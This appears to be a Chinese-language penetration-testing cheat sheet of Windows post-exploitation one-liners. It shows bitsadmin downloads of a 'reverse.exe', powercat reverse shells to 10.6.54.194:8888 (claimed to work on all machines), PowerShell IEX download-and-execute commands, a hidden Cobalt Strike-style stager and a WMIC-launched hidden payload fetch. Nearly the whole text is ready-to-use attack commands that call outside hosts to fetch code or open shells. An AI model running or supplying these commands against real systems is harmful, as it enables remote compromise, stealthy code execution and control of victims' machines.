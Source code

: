 bitsadmin的一些特性：

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。

bitsadmin 可以跟随URL跳转.

bitsadmin 不像curl wget 这类工具那样能用来下载HTML页面。

使用：

```
bitsadmin /transfer test http://10.6.54.194:8000/reverse.exe c:\users\staccato\desktop\reverse.exe
# "任务名" 可以随意起，保存文件的文件路径必须是已经存在的目录，否则不能下载。 

#默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速 
start bitsadmin /transfer test http://10.6.54.194:8000/reverse.exe  f:\reverse.exe 
bitsadmin /setpriority test foreground     #设置任务test为最高优先级
```

**反弹NC shell**

亲测所有机器都适用

```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 10.6.54.194 -p 8888 -e cmd

powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient)DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 10.6.54.194  -p 8888 -e cmd.exe"
```

**powershell**

**本地加载脚本并执行**

```
powershell -exec bypass Import-Module .\powerview.ps1;Get-NetDomain  #本地加载并执行PowerShell脚本
```

**远程加载脚本并执行**

```
powershell -exec bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://xx.xx.xx.xx/test.ps1')  
```

**反弹cs的powershell**

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.6.54.194:8080/a'))"   #后台运行 
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://10.6.54.194:8080/a'))"
```

**WMIC下载并执行**

```
wmic PROCESS call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://xxx.com/payload.ps1'))\"" 
```

